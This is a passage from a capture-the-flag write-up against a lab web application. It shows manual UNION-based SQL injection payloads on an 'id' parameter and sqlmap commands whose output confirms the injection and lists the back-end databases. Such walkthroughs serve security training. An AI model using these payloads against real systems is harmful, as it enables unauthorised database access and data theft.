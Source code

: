 That's a good indication of UNION injection. I'll try adding columns
until I get to `id=plans UNION select 1,2,3,4,5`:

![](/img/image-20220425160948859.png)

There's a new row on the bottom. I can't use quotes (single or double),
so that makes this trickier, but still doable. I can get things like the
current user, the MySQL DB version, and the current database with
`id=plans union select 1,user(),version(),database(),5`:

![](/img/image-20220425165339436.png)

#### sqlmap

Given that both seem like a pain to do, I'll turn to `sqlmap`. With the
hope of potentially finding the UNION injection, I'll revisit the URL
from #2 above,
`http://10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans`,
and then in Burp, find that request and right-click and "Copy to File".

Then I'll start `sqlmap`. Because I want it to focus on the UNION
injection, I'll give it `--technique U`:



    oxdf@hacky$ sqlmap -r view.php-request -p id --batch --technique U
    ...[snip]...
    GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 19 HTTP(s) requests:
    ---
    Parameter: id (GET)
        Type: UNION query
        Title: Generic UNION query (NULL) - 5 columns
        Payload: mod=admin&view=repod&id=plans UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626b71,0x4d6e48486a5148534d617a767650764754777a476a4e45615761746245506c667571654a7a49446e,0x7170716271),NULL-- -
    ---
    [20:22:01] [INFO] testing MySQL
    [20:22:02] [INFO] confirming MySQL
    [20:22:02] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.0
    [20:22:04] [INFO] fetched data logged to text files under '/home/oxdf/.sqlmap/output/10.10.10.71'



I'll add `--dbs` to list the databases:



    [20:36:27] [INFO] fetching database names
    available databases [7]:
    [*] complain
    [*] information_schema
    [*] joomla
    [*] mysql
    [*] performance_schema
    [*] secret
    [*] sys
